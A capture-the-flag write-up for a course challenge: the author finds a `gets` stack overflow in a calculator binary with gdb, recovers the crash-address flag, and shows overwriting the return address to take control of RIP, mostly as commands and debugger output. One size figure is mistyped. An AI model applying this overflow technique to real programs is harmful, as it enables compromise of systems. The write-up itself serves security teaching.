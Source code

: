 ### Fuzzy calculator
>Our startup has developed an advanced calculator app for 64-bit Linuxes. Unfortunately, the app has a serious memory safety problem. What is more, our competitors have a similar products without these kind of problems. We have act quickly before the market reacts and gets too much stacked against us. Can you trace down the exact point where the problem occurs? http://sec-mooc-1.cs.helsinki.fi/clock/a2f79db3-c910-482e-baa2-b4da7b3caa99/clock (Note that the address should include all leading zeroes and the hexadecimal prefix e.g. 0x0000000000000001)

The title of the challenge suggests fuzzing but after messing around with it a few times and seeing it wasn't very complicated I decided to look at it in gdb.
```
root@kali:~/temp/fuzzy# gdb ./clock
...
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400256 <+0>:	push   rbp
   0x0000000000400257 <+1>:	mov    rbp,rsp
   0x000000000040025a <+4>:	sub    rsp,0x138b0
   0x0000000000400261 <+11>:	mov    DWORD PTR [rbp-0x138a4],edi
   0x0000000000400267 <+17>:	mov    QWORD PTR [rbp-0x138b0],rsi
   0x000000000040026e <+24>:	mov    edi,0x407660
   0x0000000000400273 <+29>:	call   0x4006d9 <puts>
   0x0000000000400278 <+34>:	mov    edi,0x407688
   0x000000000040027d <+39>:	call   0x4006d9 <puts>
   0x0000000000400282 <+44>:	lea    rax,[rbp-0x138a0]
   0x0000000000400289 <+51>:	mov    rdi,rax
   0x000000000040028c <+54>:	mov    eax,0x0
   0x0000000000400291 <+59>:	call   0x4005f6 <gets>
... 
```
What immediately jumped out to me was the `gets` call. `gets` reads a line from stdin and saves it to a buffer but doesn't check if the buffer is big enough. This causes a buffer overflow if the string is too long.

Funnily enough first I was so excited seeing `gets` within like a minute of downloading the challenge that I didn't look at how big the buffer actually was. The command `sub    rsp,0x138b0` sets up the stack for the buffer by substracting `0x138b0`  (`80048` in decimal) from the stack pointer. 

So after a few attempts to make it crash without success I went back to see just how big the buffer was and only then realised to craft a long enough input.
```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' | ./clock
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
Segmentation fault
```
There's a crash and now for the flag we need to get a memory address. We can use GDB for this but because the calculator takes input from stdin we first need to write our input to a file and then redirect the file as input inside GDB:

```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)

Program received signal SIGSEGV, Segmentation fault.
0x0000000000403670 in memcpy ()
```
And we get our flag, `0x0000000000403670`. 


#### Commentary:

I got lucky in that in my manual testing I put in a long enough input for the program to crash at memcpy to actually get the flag. Many people in the IRC/Matrix channel had problems because they got the program to crash but at a different point.

If your input is shorter than ~83500 characters but longer than 800040 you won't overflow enough and start getting a different crash. The crash will happen at the very end of the program where it's about to return from main.

Let's give an input of "1" * 81000:

```
root@kali:~/temp/fuzzy# python -c 'print "1"*81000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x000000000040041c in main ()
(gdb) x/i 0x000000000040041c
=> 0x40041c <main+454>:	retq
(gdb) x/xg $rsp
0x7fffffffe258:	0x3131313131313131
```

So we are crashing at the very end of the program when main is about to return. The reason why we are crashing here is that `ret` is popping a value from stack (at RSP, the stack pointer) and is trying to put it as instruction pointer (RIP). But in x86-64 the maximum address size is `0x00007FFFFFFFFFFF` so `0x3131313131313131` is not a valid address. The address is not allowed so we crash at the `ret` instruction.

Now if we craft our overflow to have a valid address for RIP we actually take control of it:
```
root@kali:~/temp/fuzzy# python -c 'print "1"*80040 + "2" * 6 '> ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x0000323232323232 in ?? ()
```
0x32 = "2" and because of endianness "222222" ends up being "0x0000323232323232".

Note that the above only applies to x86-64 and with 32 bit binaries things are a bit (heh) different.

